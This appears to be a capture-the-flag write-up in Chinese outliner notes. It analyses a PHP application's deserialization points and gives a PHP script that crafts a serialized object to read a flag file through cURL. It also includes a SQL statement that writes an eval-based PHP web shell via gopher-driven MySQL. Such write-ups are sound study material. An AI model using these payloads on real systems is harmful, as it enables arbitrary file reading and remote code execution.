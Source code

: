 -
- MySQL没有密码，可以用cURL配合gopher打MySQL
	- 注意：没有回显
# 敏感函数
- closelog: ^^任意文件写入^^
	- 无法利用
- checkUpdate
	- cURL任意文件读取
- # 反序列化 > 伪协议
- 对所有反序列化点分析如下：
- unserialize
	- __destruct
		- dao.php: conn -> close
			- 无对应函数
	- addDpt
		- dao.php: insert_dpt
			- SQL，无法利用
	- getAllDbt
		- dao.php: get_dpt_all
			- SQL，无法利用
	- checkVersion
		- 在dao中
		- utils/fun.php: checkUpdate
			- ^^任意文件读取^^
	- clearCache
		- 无法利用
-
- ## 利用
- id:: 62f1f30e-e08a-4146-bfae-5a04a4898134
  ```php
  <?php
  class dao{
  	private $config;
  	private $conn;
  	function set_config($config) {
  		$this -> config = $config;
  	}
  }
  
  class config{
  	private $mysql_username='root';
  	private $mysql_password='';
  	private $mysql_db='sds';
  	private $mysql_port=3306;
  	private $mysql_host='localhost';
  	public $cache_dir = 'cache';
  	public $update_url = 'file:///var/www/html/flag.php';
  }
  
  $c = new config();
  $d = new dao();
  $d -> set_config($c);
  echo urlencode(base64_encode(serialize($d)));
  ?>
  ```
-
- # Gopher控制MySQL
- 此处的MySQL没有密码，可以使用Gopher控制
- 使用 ((62f14125-43fc-4da5-b83f-4d56aa1d2157)) 生成
- SQL：`select '<?php eval($_POST[data]);?>' into outfile '/var/www/html/test2.php';`
-
-
- # 参见
- ((62f27746-a352-41d4-b76d-63fc1f7c9e4f))
-
-